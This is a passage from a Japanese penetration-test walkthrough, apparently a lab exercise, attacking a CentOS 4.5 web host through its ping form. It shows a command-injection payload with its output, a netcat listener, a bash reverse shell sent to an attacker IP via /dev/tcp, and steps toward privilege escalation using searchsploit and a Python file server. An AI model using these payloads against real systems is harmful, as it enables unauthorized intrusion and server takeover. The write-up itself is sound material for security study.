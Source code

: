 ## 6, OSコマンドインジェクションを試みる
- 127.0.0.1; ls -al　を入力してみる
```
127.0.0.1; ls -al
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.015 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.024 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.021 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.015/0.020/0.024/0.003 ms, pipe 2
total 24
drwxr-xr-x  2 root root 4096 Oct  8  2009 .
drwxr-xr-x  8 root root 4096 Oct  7  2009 ..
-rwxr-Sr-t  1 root root 1733 Feb  9  2012 index.php
-rwxr-Sr-t  1 root root  199 Oct  8  2009 pingit.php
```
pingの結果の後にls -alの結果が表示されていることを確認出来た。

## 7, OSコマンドインジェクションを利用してBashを利用したリバースシェルを行う
- 攻撃サーバにてncコマンドで接続を待ち受ける
```
$ nc -lvp 4444
listening on [any] 4444 ...
```

- ブラウザにてリバースシェルのコマンド構文を入力する
```
; bash -i >& /dev/tcp/192.168.11.12/4444 0>&1
```
攻撃サーバにbashが表示される

## 8, サーバ内の調査
OSのバージョンを調査する
```
$ cat /etc/redhat-release
CentOS release 4.5 (Final)
```

## 9, searchsploitでCentOS4.5の脆弱性を検索する
```
$ searchsploit CentOS 4.5
```
9542.c(EDB-ID: 9542)がを使用して特権昇格として使用出来そう

## 10, 標的サーバにコードを送る
- 攻撃サーバにてローカルサーバを立ち上げる
```
$ python -m SimpleHTTPServer 8080
```
